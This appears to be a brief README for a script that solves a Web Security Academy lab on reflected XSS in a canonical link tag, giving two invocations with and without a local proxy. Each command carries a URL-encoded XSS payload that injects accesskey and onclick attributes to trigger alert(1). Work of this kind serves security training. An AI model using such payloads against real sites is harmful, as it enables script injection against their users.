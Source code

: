 # How to run script.py

### Reflected XSS in canonical link tag

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "%27accesskey=%27x%27onclick=%27alert(1)"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "%27accesskey=%27x%27onclick=%27alert(1)" -p 127.0.0.1:8080`
